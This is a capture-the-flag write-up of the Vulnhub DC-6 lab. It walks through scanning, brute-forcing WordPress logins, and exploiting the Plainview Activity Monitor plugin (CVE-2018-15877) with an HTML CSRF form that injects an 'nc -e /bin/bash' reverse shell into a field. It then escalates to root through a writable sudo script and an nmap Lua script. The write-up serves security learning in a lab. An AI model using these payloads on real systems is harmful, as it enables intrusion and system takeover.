 ```yaml
---
"title": "Vulnhub - DC 6"
"date": 2019-11-21
"tags": ["easy", "wordpress", "sudo"]
"keywords": ["easy", "wordpress", "sudo"]
"categories": ["Vulnhub"]
"author": "Ghostbyt3"
"description": "Today, We are going to pwn DC 6 by DCAU7 from Vulnhub"
"featured_image": "/img/dc6/1.png"
"layout": "single"
"showTableOfContents": true
"authorbox": true
"pager": true
"toc": true
"mathjax": true
"sidebar": "right"
"subtitle": "Vulnhub - Writeup"
---
```



![Untitled](/img/dc6/1.png)[br/](br/)
Today, We are going to pwn DC 6 by DCAU7 from Vulnhub


## Description

>DC-6 is another purposely built vulnerable lab with the intent of gaining experience in the world of penetration testing.
This isn't an overly difficult challenge so should be great for beginners.
The ultimate goal of this challenge is to get root and to read the one and only flag.
Linux skills and familiarity with the Linux command line are a must, as is some experience with basic penetration testing tools.
For beginners, Google can be of great assistance, but you can always  tweet me at @DCAU7 for assistance to get you going again. But take note:  I won't give you the answer,instead, I'll give you an idea about how  to move forward.

Download Link:[https://www.vulnhub.com/entry/dc-6,315/](https://www.vulnhub.com/entry/dc-6,315/)


Lets Begin with our Initial Scan

## Nmap Scan Results

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 3e:52:ce:ce:01:b6:94:eb:7b:03:7d:be:08:7f:5f:fd (RSA)
|   256 3c:83:65:71:dd:73:d7:23:f8:83:0d:e3:46:bc:b5:6f (ECDSA)
|_  256 41:89:9e:85:ae:30:5b:e0:8f:a4:68:71:06:b4:15:ee (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Did not follow redirect to http://wordy/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
MAC Address: 08:00:27:45:90:BE (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Looks like there is a HTTP port is open so lets start our Gobuster

## Gobuster Result
```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.0.2.11
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2019/11/28 17:29:09 Starting gobuster
===============================================================
/.htaccess (Status: 403)
/.hta (Status: 403)
/.htpasswd (Status: 403)
/index.php (Status: 200)
/server-status (Status: 403)
/wp-admin (Status: 301)
/wp-includes (Status: 301)
/wp-content (Status: 301)
===============================================================
2019/11/28 17:29:11 Finished
===============================================================
```
Nothing Interesting

![Untitled](/img/dc6/1.png)[br/](br/)
Since it is a wordpress site , Lets run ``Wpscan`` to enumerate any user or find any vulnerable plugins.

![Untitled](/img/dc6/2.png)

We found 5 users 
> admin,jens,graham,mark,sarah
Lets start bruteforcing them.

But the creator give us a hint 
![Untitled](/img/dc6/3.png)

Now we can bruteforce easily![br/](br/)
![Untitled](/img/dc6/4.png)
![Untitled](/img/dc6/5.png)

We got password for mark ``helpdesk01``

## Getting Shell

After Logged in
One thing i observerd is Activity monitor. It looks like a Plugin so it might have an exploit.
![Untitled](/img/dc6/6.png)

>https://www.exploit-db.com/exploits/45274

Yeah Found it!!

First things first, I decided to check the exploit and configure it (if required).

I changed some 
```
1. http://localhost:8000 to http://wordy
2. Removed -lnvp I want to listen on my machine.
```

```
[html](html)
  <!--  Wordpress Plainview Activity Monitor RCE
        [+] Version: 20161228 and possibly prior
        [+] Description: Combine OS Commanding and CSRF to get reverse shell
        [+] Author: LydA(c)ric LEFEBVRE
        [+] CVE-ID: CVE-2018-15877
        [+] Usage: Replace 127.0.0.1 & 9999 with you ip and port to get reverse shell
        [+] Note: Many reflected XSS exists on this plugin and can be combine with this exploit as well
  -->
  [body](body)
  [script](script)history.pushState('', '', '/')[/script](/script)
    [form action="http://wordy/wp-admin/admin.php?page=plainview_activity_monitor&tab=activity_tools" method="POST" enctype="multipart/form-data"](form action="http://wordy/wp-admin/admin.php?page=plainview_activity_monitor&tab=activity_tools" method="POST" enctype="multipart/form-data")
      [input type="hidden" name="ip" value="google.fr| nc -e /bin/bash 10.0.2.18 9999" /](input type="hidden" name="ip" value="google.fr| nc -e /bin/bash 10.0.2.18 9999" /)
      [input type="hidden" name="lookup" value="Lookup" /](input type="hidden" name="lookup" value="Lookup" /)
      [input type="submit" value="Submit request" /](input type="submit" value="Submit request" /)
    [/form](/form)
  [/body](/body)
[/html](/html)
```

Saved it and Open that ``.html`` and listening on my machine.
We got the shell


![Untitled](/img/dc6/7.png)


![Untitled](/img/dc6/8.png)

Found ``graham`` password on mark's directory

![Untitled](/img/dc6/9.png)

Logged in as ``graham``

## Privilege Escalation

While enumerating i found a ``backup.sh`` on ``jens`` directory.

But i cant execute it.
I checked ``sudo -l`` on ``graham``

![Untitled](/img/dc6/10.png)

This means we can run with sudo rights, we also have write permission on that file.
So I replaced with giving us shell.

![Untitled](/img/dc6/11.png)

And Run the script
We became ``jens`` now and run ``sudo -l``

![Untitled](/img/dc6/12.png)

It looks like we can run ``nmap`` with sudo rights.

I searched on ``GTFObins``

> [https://gtfobins.github.io/gtfobins/nmap/](https://gtfobins.github.io/gtfobins/nmap/)

```
echo 'os.execute("/bin/sh")' > $TF

nmap --script=$TF
```

We created our nmap script and make it run to give us root.

![Untitled](/img/dc6/13.png)

We got the ``Flag`` and Root !!
